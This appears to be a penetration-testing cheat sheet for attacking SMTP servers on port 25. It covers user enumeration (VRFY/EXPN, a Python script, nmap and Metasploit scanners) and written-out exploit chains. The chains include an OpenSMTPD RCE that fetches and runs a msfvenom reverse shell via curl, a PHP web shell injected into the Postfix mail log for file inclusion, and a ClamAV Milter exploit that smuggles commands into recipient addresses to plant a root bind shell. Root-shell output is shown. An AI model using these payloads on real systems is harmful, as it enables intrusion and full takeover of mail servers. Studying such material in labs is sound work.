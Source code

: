 # smtp 25

## <a href='https://www.ionos.com/digitalguide/e-mail/technical-matters/smtp/' target="blank">What is SMTP?</a>

## Server Connection

``` bash
$ nc -nvC $ip 25
$ telnet $ip 25

VRFY root
EXPN
```

## SMTP Commands

``` bash
$ helo admin
$ mail from:<>
$ rcpt to:<nobody>
$ data
hades
.
```

## Scanning Vul

``` bash
$ nmap $ip -p 25 --script=smtp-*
```

``` bash
$ sudo msfconsole -q -x "setg RHOSTS $ip;
use auxiliary/scanner/smtp/smtp_enum; run;
use auxiliary/scanner/smtp/smtp_relay; run;
use auxiliary/scanner/smtp/smtp_version; run;
exit"
```

## Scripting

=== "Scripting"

	``` bash
	python3 smtp-vrfy.py <username>
	```

=== "smtp-vrfy.py"

	``` python
	#!/usr/bin/python3

	import socket
	import sys

	if len(sys.argv) != 2:
		print("Usage: python3 sys.argv[0] <username>")
		sys.exit(0)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	connect = s.connect(('192.168.11.131',25))

	banner = s.recv(1024)

	print (banner)

	s.send('VRFY ' + sys.argv[1] + '\r\n')
	result = s.recv(1024)

	print(result)

	s.close()
	```

## OpenSMTPD < 6.6.1 - rce

[https://www.exploit-db.com/exploits/47984](https://www.exploit-db.com/exploits/47984)

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ip LPORT=25 -f elf > shell.elf
```

``` bash
sudo python3 -m http.server 80
```

``` bash
python3 47984.py ip 25 'curl ip/shell.elf -o /tmp/shell'
python3 47984.py ip 25 'chmod +x /tmp/shell'
python3 47984.py ip 25 '/tmp/shell'
```

``` bash
sudo nc -nvlp 25                     
listening on [any] 25 ...
connect to [ip] from (UNKNOWN) [ip] 57356
id
uid=0(root) gid=0(root) groups=0(root)
```

## LFI to rce

[WINTERMUTE: 1 - Walkthrough](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight-smtp_log_file_inclusion-screen_4.5.0#foothold)

==> Postfix mail log: `/var/log/mail.log`

``` bash
$ nc -nC ip 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```

## Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock'

[https://www.exploit-db.com/exploits/34896](https://www.exploit-db.com/exploits/34896)

## ClamAV Milter 0.92.2

[https://www.exploit-db.com/exploits/4761](https://www.exploit-db.com/exploits/4761)

``` bash
perl 4761.pl ip
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking ip...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 26 Jul 2021 09:42:48 -0400; (No UCE/UBE) logging access from: [ip](FAIL)-ip]
250-localhost.localdomain Hello [ip], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 16QDgmnb004808 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

``` bash
$ nc -nv ip 31337 
(UNKNOWN) [ip] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
```